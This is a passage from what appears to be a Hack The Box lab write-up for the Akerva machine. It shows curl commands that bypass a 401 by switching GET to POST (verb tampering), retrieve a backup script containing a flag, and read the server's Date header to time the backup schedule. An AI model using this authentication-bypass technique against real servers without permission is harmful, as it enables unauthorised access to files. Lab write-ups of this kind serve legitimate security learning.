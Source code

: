 Then I would try to get the script 
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ curl -s 10.13.37.11/scripts/backup_every_17minutes.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>
</body></html>

```
It gives us the 401 unauthorized code here.
But if we change the `GET` request to `POST`request, we can find something different
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ curl -s -X POST 10.13.37.11/scripts/backup_every_17minutes.sh
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#

SAVE_DIR=/var/www/html/backups

while true
do
        ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
        echo "Erasing old backups..."
        rm -rf $SAVE_DIR/*

        echo "Backuping..."
        zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

        echo "Done..."
        sleep 1020
done

```

The backup script backs up the web folder to a zip folder and then to the backup directory every 17 minutes
But we need to know the server's time, not our local time.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ curl -s 10.13.37.11 -I | grep Date  
Date: Thu, 31 Jul 2025 03:56:39 GMT
```
